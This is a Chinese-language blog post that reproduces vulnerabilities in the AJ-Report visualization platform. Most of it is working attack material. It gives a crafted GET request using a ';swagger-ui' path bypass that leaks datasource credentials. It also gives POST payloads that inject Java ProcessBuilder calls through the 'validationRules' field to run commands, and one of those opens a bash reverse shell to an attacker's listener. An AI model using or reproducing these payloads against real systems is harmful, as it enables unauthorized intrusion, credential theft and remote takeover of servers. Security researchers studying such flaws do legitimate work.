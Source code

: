#  AJ-Report 可视化大屏漏洞复现   
 kali笔记   2024-12-30 01:14  
  
> AJ-Report是全开源的一个BI平台，酷炫大屏展示，能随时随地掌控业务动态，让每个决策都有数据支撑。多数据源支持，内置mysql、elasticsearch、kudu驱动，支持自定义数据集省去数据接口开发，目前已支持30+种大屏组件/图表，不会开发，照着设计稿也可以制作大屏。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/Xb3L3wnAiathDCibqJuHk8nA9tviajuxdByhsYiap2GBXuUFmAkl1qajhzpZZK2iapEosibozLIGldcNnbUSkv52Xic3g/640?wx_fmt=gif&from=appmsg "")  
# 部署相关  
  
在之前的文字中写过，大家可以参考历史文章。  
- 《[AJ-Report 快速搭建可视化大屏  部署篇](https://mp.weixin.qq.com/s?__biz=MzkxMzIwNTY1OA==&mid=2247501930&idx=1&sn=8412f0d021263c687f54d5c0c54f6cf3&scene=21#wechat_redirect)  
》  
  
- 《[可视化大屏AJ-Report 自定义组件](https://mp.weixin.qq.com/s?__biz=MzkxMzIwNTY1OA==&mid=2247502006&idx=1&sn=e8c8d3438dfaa3376ec0a8a5b0debc2a&scene=21#wechat_redirect)  
》  
  
# 漏洞复现  
  
部署完成后，访问ip:9095出现登录界面，如图！  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Xb3L3wnAiathDCibqJuHk8nA9tviajuxdByvCwDkG6E9ItLgkCrPA13G9lzls6jEhIJdlEzVKvjJydtR6a0fTaVHQ/640?wx_fmt=png&from=appmsg "")  
  
01  
  
SQL注入复现  
  
**漏洞成因：**  
  
在com.anji.plus.gaea.curd.controller.GaeaBaseController#pageList中，直接查询dataSource的信息，并将Dto信息直接返回，这可能导致信息泄露。  
  
Dto中存在Collections集合，直接将配置信息返回，可能导致敏感信息（如数据库账号密码）泄露。通过构造特定的GET请求，可以利用此漏洞获取数据库账号密码。  
  
**复现：**  
  
我们先利用BURP抓包登录界面。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Xb3L3wnAiathDCibqJuHk8nA9tviajuxdByltUPr405cnfkLRicB7nK1ttXyoickCanXicCFtZzx3osFE5kic6XpBXLDQ/640?wx_fmt=png&from=appmsg "")  
  
修改数据包格式如下：  
```
GET /;swagger-ui/dataSource/pageList?showMoreSearch=false&pageNumber=1&pageSize=10 HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Connection: close
Accept-Encoding: gzip

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Xb3L3wnAiathDCibqJuHk8nA9tviajuxdByUvV2mKj9l9X0h21fHDPWawCywx5SbI4ibt29mcILGb65uenTib77A0Qw/640?wx_fmt=png&from=appmsg "")  
  
或者直接访问urlhttp://ip:9050/;swagger-ui/dataSource/pageList?showMoreSearch=false&pageNumber=1&pageSize=10  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Xb3L3wnAiathDCibqJuHk8nA9tviajuxdByGhYQcjjS0p6LxZoRX5jKXyyn0UzlCTkcqbaQX7svcboU2JcvoYSmgQ/640?wx_fmt=png&from=appmsg "")  
  
02  
  
命令执行  
构造POC如下```
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1
Host: 192.168.123.12:9095
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json;charset=UTF-8
Connection: close
Content-Length: 349
{"ParamName":"","paramDesc":"","paramType":"","sampleItem":"1","mandatory":true,"requiredFlag":1,"validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\"ip\",\"a\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"}

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Xb3L3wnAiathDCibqJuHk8nA9tviajuxdBypLeHTB2obFkkyJPxDZibibnQ2p9ZCTdqoKhic33qmPYjSVC6vmyzjdEvw/640?wx_fmt=png&from=appmsg "")  
  
得到了网卡信息  
  
03  
  
反弹Shell  
利用上述漏洞原理，我们可以反弹Shell  
注意：需要在同一局域网，不在同一网段，请做端口映射。在kali中执行命令  
```
nc -lvnp 7777

```  
  
**POC**  
```
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1
Host: ip:9095
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json;charset=UTF-8
Connection: close
Content-Length: 406

{"ParamName":"","paramDesc":"","paramType":"","sampleItem":"1","mandatory":true,"requiredFlag":1,"validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\"bash\",\"-c\",\"bash -i >& /dev/tcp/你的kaliIP/7777 0>&1\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"}

```  
  
  
**更多精彩文章 欢迎关注我们**  
  
  
